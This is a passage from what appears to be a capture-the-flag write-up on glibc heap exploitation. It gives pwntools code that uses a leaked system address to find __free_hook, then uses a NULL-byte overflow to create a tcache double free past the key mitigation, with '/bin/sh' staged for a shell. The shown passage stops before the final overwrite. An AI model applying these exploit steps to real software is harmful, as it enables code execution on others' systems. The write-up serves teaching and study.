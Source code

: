 ```python
p = start()
if not args.REMOTE and args.GDB:
    debug([])
```

Now, we do the following steps in order, using our knowledge of how the new mitigation works.

First, we answer the initial question with a 'y'. We then use the leaked address of `system` to calculate the libc base address and subsequently the address of `__free_hook`:
```python
initialize('y')

# Calculate everything
p.recvuntil(': ')
system = int(p.recvuntil('\n').strip('\n'), 16)
libc.address = system - libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))
```

Next we need to add two chunks. The first chunk's size doesn't matter, I arbitrarily choose 0x58 (chunk 0). The second chunk though has to be a size >= 0x100. I arbitrarily chose 0x180 (chunk 1).

We will free chunk 0, then chunk 1. Chunk 0 will go into the 0x50 tcache bin, while chunk 1 will go into the 0x180 tcache bin. I then get back chunk 0, and use the single NULL byte overflow to overwrite chunk 1's size from 0x191 to 0x100. I also set the first 8 bytes of chunk 0 to `'/bin/sh\x00'` for later use.

Since chunk 1's size changed from 0x191 to 0x100, we can immediately free it again. This time, it will go into the 0xf0 tcache bin.
```python
# Add a 0x50 and 0x180 chunk
add(0x58, 'A'*0x58) # Chunk A
add(0x180, 'B'*0x180) # Chunk B

# Free them both
free(0) # Goes into 0x50 tcache bin
free(1) # Goes into 0x180 tcache bin

# Get back the 0x50 chunk, but also null byte overflow into the 0x180 chunk
# Also put in /bin/sh\x00 into it for later use
add(0x58, '/bin/sh\x00' + 'A'*0x50) # Chunk A

# The 0x180 chunk's size is now actually 0x100 (due to null byte overflow)
# This means we can free it again immediately
free(1) # Goes into 0xf0 tcache bin
```

Remember the chunk that went into the 0x180 tcache bin? It is the same chunk, only now its size is actually 0x100. We reallocate it back out of the 0x180 tcache bin, and immediately free it. What happens now is that the same chunk is in the 0xf0 tcache bin twice, as if we had double freed it.
```python
# Get back the 0x100 chunk out of the 0x180 tcache bin
add(0x180, 'C'*0x180) # Chunk B

# Since tcache_get will null out the key, we can free it immediately
free(3) # Goes into 0xf0 tcache bin

# Now: tcache[0x100] -> Chunk B <- Chunk B
```
